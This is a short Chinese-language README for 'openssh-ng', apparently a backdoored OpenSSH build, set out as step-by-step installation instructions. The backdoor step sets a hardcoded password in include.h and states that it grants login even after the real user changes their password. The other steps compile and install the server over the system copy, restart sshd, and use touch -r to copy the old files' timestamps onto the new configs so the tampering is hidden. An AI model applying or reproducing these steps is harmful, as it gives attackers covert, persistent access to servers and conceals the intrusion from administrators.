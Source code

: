 # openssh-ng

## 备份原始配置文件

```
mv /etc/ssh/ssh_config /etc/ssh/ssh_config.old
mv /etc/ssh/sshd_config /etc/ssh/sshd_config.old
```

## 修改ssh后门密码

```
vi include.h
......
#define SECRETPW "123456"  //ssh后门密码
```

> 即使用户修改了密码仍然可以通过后门密码登入

## 编译+安装

```
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make && make install
```

> 在编译过程中可能会出现“configure: error: *** zlib.h missing – please install first or  check config.log”错误，可以执行“yum install zlib-devel和yum install openssl  openssl-devel”安装后再次编译即可。

## 重启sshd

```
/etc/init.d/sshd restart
```

## 还原新配置文件为旧配置文件时间
```
touch -r/etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r/etc/ssh/sshd_config.old /etc/ssh/sshd_config
```


